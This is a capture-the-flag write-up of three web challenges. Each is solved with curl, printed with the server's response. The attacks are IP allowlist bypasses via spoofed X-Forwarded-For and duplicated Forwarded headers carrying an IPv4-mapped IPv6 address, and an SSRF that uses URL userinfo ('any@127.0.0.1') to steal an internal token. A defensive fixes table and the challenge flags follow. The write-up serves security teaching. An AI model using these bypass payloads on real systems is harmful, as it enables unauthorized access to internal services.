






1 / the-jump.onrender.com
The Jump: X-Forwarded-For and an IP wearing a fake mustache.
The solve starts on the homepage, not on the flag route. The page tells us what kind of boundary we are dealing with: this is an internal operations portal, and the console is reserved for staff connecting from the corporate network.
Recon
curl -i 'https://the-jump.onrender.com/'
HTTP/1.1 200 OK
Internal Operations Portal
The console is reserved for staff connecting from the corporate network.
The homepage gives us two useful facts before any exploit attempt. First, the target resource is the Operations Console, linked as /admin. Second, the control is location-sensitive. The app is not asking who I am; it is asking where it thinks I came from.
curl -i 'https://the-jump.onrender.com/admin'
HTTP/1.1 403 Forbidden
The Operations Console is available to staff on the corporate network only.In web apps behind reverse proxies, the question "where did this request come from?" is often answered from forwarding headers.
What X-Forwarded-For is doing
X-Forwarded-For is a de facto proxy header used to preserve the original client IP after traffic passes through a load balancer, CDN, or reverse proxy. A typical chain looks like client, proxy1, proxy2. The dangerous part is obvious: if the app accepts this header directly from the public internet, the client gets to write its own return address on the envelope.
Frameworks often expose this as a convenient req.ip or "client address" value once trusted-proxy mode is enabled. That is fine only when the edge proxy strips any incoming client copy and adds its own clean header. If the raw internet can send the header through, the security boundary has moved from the network to a string we control.
The failed obvious idea
I tried saying "I am localhost" and "I am 10.0.0.1". The edge policy caught those literal strings and returned a different 403 with x-request-blocked: 1.
curl -i \
-H 'X-Forwarded-For: 10.0.0.1' \
'https://the-jump.onrender.com/admin'
HTTP/1.1 403 Forbidden
x-request-blocked: 1
Request Blocked
10.0.0.1 and 127.0.0.1. But blocking string shapes is not the same thing as blocking addresses. The same IP can have more than one valid textual representation.
x-request-blocked: 1. That looks like a pre-application policy check catching private IPv4 ranges.
The bypass
IPv6 has a representation for IPv4 addresses called IPv4-mapped IPv6: ::ffff:x.x.x.x. The last 32 bits are the IPv4 address. For 10.0.0.1, the bytes are 0a 00 00 01. Split into two 16-bit IPv6 groups, that becomes 0a00:0001, which compresses to a00:1. Final form: ::ffff:a00:1.
So this is not "IPv6 bypasses IPv4" in a magical way. It is the same address surviving two different parsers: a filter that sees text, and an authorization check that sees the normalized IP object.
- filter view
::ffff:a00:1does not look like the blocked dotted-decimal private IP. - auth viewThe IP parser normalizes it as an address in the internal range.
- resultThe app thinks the request came from the corporate network.
curl -sS \
-H 'X-Forwarded-For: ::ffff:a00:1' \
'https://the-jump.onrender.com/admin' | grep -o 'itc{[^}]*}'
itc{3asy_st4art_duhewfi}The fix would not be "block this one weird IP format". The fix is to stop trusting public client-supplied proxy headers, or at least normalize every address before doing allow/deny logic.

itc{3asy_st4art_duhewfi}.2 / filtered-3rwy.onrender.com
Filtered: the first patch closes one door and leaves the standard one unlocked.
The second homepage is basically the challenge author leaning over the desk and whispering, "the last bug got patched." It still points to the Operations Console, but now says access was rebuilt around a stricter policy checkpoint.
Recon
curl -i 'https://filtered-3rwy.onrender.com/'
HTTP/1.1 200 OK
Following last quarter's incident review, access to the operations console
has been rebuilt around a stricter policy checkpoint.
That changes the triage. We should not assume the old header still works, but we should keep the same mental model: the protected resource is still /admin, and access is still based on where the backend thinks the request came from.
What failed first
curl -i \
-H 'X-Forwarded-For: ::ffff:a00:1' \
'https://filtered-3rwy.onrender.com/admin'
HTTP/1.1 403 Forbidden
The Operations Console is available to staff on the corporate network only.So X-Forwarded-For is no longer useful. The next candidate is the standardized cousin: Forwarded.
X-Forwarded-For for access.
Forwarded is the standards-track version many libraries understand when proxy support is enabled.
What the Forwarded header is doing
Forwarded is defined as a structured way for proxies to describe request forwarding. Instead of only a list of IPs, it uses parameters such as for=, by=, proto=, and host=. A normal-ish example is Forwarded: for=203.0.113.7;proto=https.
Two details matter for exploitation. First, each Forwarded value can contain multiple semicolon-separated parameters. Second, multiple proxies can add multiple forwarded-elements, normally separated by commas. When those elements arrive as repeated physical headers, frameworks and WAF-ish code do not always agree on whether to keep the first, keep the last, join them with commas, or expose an array.
The single-header version gets caught. This is important: the primitive is not just "use Forwarded". The policy checkpoint knows enough to reject a direct internal-looking for= value.
curl -i \
-H 'Forwarded: for=::ffff:a00:1' \
'https://filtered-3rwy.onrender.com/admin'
HTTP/1.1 403 Forbidden
x-request-blocked: 1
Request Blocked
x-request-blocked: 1. The checkpoint recognizes a direct internal client claim inside Forwarded.
Forwarded: proto=http;by=203.0.113.43, for=::ffff:a00:1 was also blocked in live testing.
Forwarded headers, harmless first and dangerous second, reached the admin logic.
The duplicate-header issue
The working request uses two Forwarded fields. The first one is harmless: it has proto and by, but no for. The second one carries the IPv4-mapped internal address.
Forwarded: proto=http;by=203.0.113.43
Forwarded: for=::ffff:a00:1Live testing made the nuance clearer: mixed casing was not required. Two headers with the same casing also worked. Reversing the order, with the for= header first, got blocked. That points to an order-sensitive mismatch: the filter appears to judge one view of the repeated header, while the authorization logic later extracts another effective for value.
Forwarded also has its own comma-separated list grammar. If one layer inspects only the first field and another layer merges, appends, or scans later values, the attacker can put a clean passport on top and the real payload underneath.
The important technical point is that HTTP does not give your app a perfectly pure "one header, one meaning" world. By the time the request passes through HTTP/2 decoding, Cloudflare, Render, the web server, and the application framework, duplicated metadata may have been normalized more than once. If the security filter and the application framework are not using the exact same normalized representation, a repeated header becomes a parser differential.
curl -sS \
-H 'Forwarded: proto=http;by=203.0.113.43' \
-H 'Forwarded: for=::ffff:a00:1' \
'https://filtered-3rwy.onrender.com/admin' | grep -o 'itc{[^}]*}'
itc{4_h4ard3r_f1lt3r_f0r_th1s_d4nc3}The patch blocked the first spelling, but the trust boundary stayed in the same dangerous place: attacker-controlled forwarding metadata.

3 / throughfall-anabasis.onrender.com
Throughfall: same parser game, but now the server does the browsing.
The third challenge changes the shape completely. The homepage is no longer an operations console; it is a URL preview service. That matters because the protected resource is not something we browse directly. It is something we have to make the server query.
Recon
The homepage exposes the feature directly: GET /preview?url=<target>. It also says requests to non-public destinations are rejected and that service topology is published at /status. That is the whole map: query resources through /preview, then use /status to learn what internal resource is worth previewing.
curl -i 'https://throughfall-anabasis.onrender.com/'
HTTP/1.1 200 OK
URL Preview Service
GET /preview?url=<target>
Service topology is published at /status.
/preview?url=, and /status tells us the topology.curl -sS 'https://throughfall-anabasis.onrender.com/status'
{"internal_services":[{"endpoint":"http://127.0.0.1:8081/","name":"metadata"}],
"service":"url-preview"}/preview without a parameter returns missing url parameter, so the sink is definitely the url query value.
https://example.com/ returns status 200 and a copied body. That confirms the server is making the outbound request, not the browser.
127.0.0.1:8081. Very neighborly. Very exploitable.
What SSRF means here
Server-Side Request Forgery is when the server fetches a URL chosen by the attacker. That matters because the server has network reach that the attacker does not. Here, the interesting host is 127.0.0.1:8081, visible only from inside the Render service.
The direct attempt is blocked, which is what a preview service should do:
curl -sS \
'https://throughfall-anabasis.onrender.com/preview?url=http://127.0.0.1:8081/metadata'
{"error":"request blocked: destination not permitted",
"url":"http://127.0.0.1:8081/metadata"}The URL userinfo trick
A URL can contain userinfo before the host: scheme://userinfo@host/path. In http://any@127.0.0.1:8081/metadata, the host is still 127.0.0.1. The string before @ is not the host; it is userinfo.
If the validator extracts the host naively, it may approve any. The HTTP client then parses the URL correctly and connects to 127.0.0.1. Same old story: one input, two interpretations.

any was userinfo the whole time.The classic mistake is doing host extraction with string operations like "take whatever comes after :// and before the next : or /". That treats any@127.0.0.1 as if any were the host. A real URL parser follows the grammar: userinfo is before @, hostname is after it, and the port is after the hostname.
- validator viewApproves the apparent host
any, because it is not private or loopback. - fetch viewConnects to hostname
127.0.0.1on port8081. - impactThe public preview endpoint becomes a bridge to an internal-only metadata service.
Step 1: steal the metadata token
curl -sS \
'https://throughfall-anabasis.onrender.com/preview?url=http://any@127.0.0.1:8081/metadata'
{"body":"{\"note\":\"present this token to /admin/flag as ?token=\",\"token\":\"5bbf2c858d8464a23c56560cb1501ccc\"}\n",
"status":200,
"url":"http://any@127.0.0.1:8081/metadata"}The token can rotate, so the durable solve is to fetch /metadata first and reuse whatever token it returns.
That token step is also useful triage. If the internal flag endpoint says "missing or invalid token", the SSRF already worked; the remaining problem is application state, not network reachability. In other words, a 403 from the internal service can still be a successful SSRF signal.
Step 2: present the token to the internal flag route
curl -sS \
'https://throughfall-anabasis.onrender.com/preview?url=http://any@127.0.0.1:8081/admin/flag?token=5bbf2c858d8464a23c56560cb1501ccc'
{"body":"{\"flag\":\"itc{4_c0v3r_f0r_4_h1gh3r_f0rm}\"}\n",
"status":200,
"url":"http://any@127.0.0.1:8081/admin/flag?token=5bbf2c858d8464a23c56560cb1501ccc"}

fixes / takeaways
The trilogy lesson: parse once, then decide.
None of these bugs required exotic memory corruption or a giant exploit chain. They were all about disagreement between the component that filters input and the component that later uses it.
| Proxy trust | Only accept X-Forwarded-For or Forwarded from proxies you control. Strip client-supplied copies at the edge. |
|---|---|
| Error triage | Different 403 pages matter. An app-level "not corporate" denial points at authorization logic; an x-request-blocked denial points at a policy layer before the app. That difference guided the solve. |
| IP checks | Normalize addresses before classification. IPv4, IPv6, IPv4-mapped IPv6, decimal, hex, and compressed forms should collapse to one canonical address model. |
| Headers | Use one standards-aware parser for Forwarded. Define exactly how duplicates are handled, and reject unexpected repeated forwarding headers. |
| SSRF | Reject userinfo, parse URLs with a real URL parser, validate the same parsed object that the HTTP client will use, resolve DNS before connecting, block private ranges after resolution, and re-check redirects. |
| Core rule | Do not validate one representation and then execute another. Parse once into a canonical object, make the security decision on that object, and pass that same object forward. |
Final flags
itc{3asy_st4art_duhewfi}
itc{4_h4ard3r_f1lt3r_f0r_th1s_d4nc3}
itc{4_c0v3r_f0r_4_h1gh3r_f0rm}